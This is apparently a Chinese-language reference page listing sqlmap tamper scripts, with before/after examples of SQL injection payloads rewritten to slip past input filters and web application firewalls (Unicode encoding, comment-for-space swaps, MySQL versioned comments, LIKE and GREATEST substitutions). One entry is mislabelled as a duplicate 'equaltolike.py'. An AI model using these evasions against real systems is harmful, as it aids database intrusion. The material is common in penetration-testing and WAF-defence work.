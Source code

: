     **charunicodeencode.py**
    适用数据库：ASP、ASP.NET
    测试通过数据库：Microsoft SQL Server 2000/2005、MySQL 5.1.56、PostgreSQL 9.0.3
    作用：适用字符串的unicode编码
    使用脚本前：tamper('SELECT FIELD%20FROM TABLE')
    使用脚本后：%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045

    **space2comment.py**
    测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
    作用：将空格替换为/**/
    使用脚本前：tamper('SELECT id FROM users')
    使用脚本后：SELECT/**/id/**/FROM/**/users

    **equaltolike.py**
    测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5
    作用：将=替换为LIKE
    使用脚本前：tamper('SELECT * FROM users WHERE id=1')
    使用脚本后：SELECT * FROM users WHERE id LIKE 1

    **equaltolike.py**
    测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
    作用：将>替换为GREATEST，绕过对>的过滤
    使用脚本前：tamper('1 AND A > B')
    使用脚本后：1 AND GREATEST(A,B+1)=A

    **modsecurityversioned.py**
    适用数据库：MySQL
    测试通过数据库：MySQL 5.0
    作用：过滤空格，使用mysql内联注释的方式进行注入
    使用脚本前：tamper('1 AND 2>1--')
    使用脚本后：1 /*!30874AND 2>1*/--

    **space2mysqlblank.py**
    适用数据库：MySQL
    测试通过数据库：MySQL 5.1
    作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B')
    使用脚本前：tamper('SELECT id FROM users')
    使用脚本后：SELECT%0Bid%0DFROM%0Cusers

    **modsecurityzeroversioned.py**
    适用数据库：MySQL
    测试通过数据库：MySQL 5.0
    作用：使用内联注释方式（/*!00000*/）进行注入
    使用脚本前：tamper('1 AND 2>1--')
    使用脚本后：1 /*!00000AND 2>1*/--

    **space2mysqldash.py**
    适用数据库：MySQL、MSSQL
    作用：将空格替换为 -- ，并追随一个换行符
    使用脚本前：tamper('1 AND 9227=9227')
    使用脚本后：1--%0AAND--%0A9227=9227

    **space2morehash.py**
    适用数据库：MySQL >= 5.1.13
    测试通过数据库：MySQL 5.1.41
    作用：将空格替换为#，并添加一个随机字符串和换行符
    使用脚本前：tamper('1 AND 9227=9227')
    使用脚本后：1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227
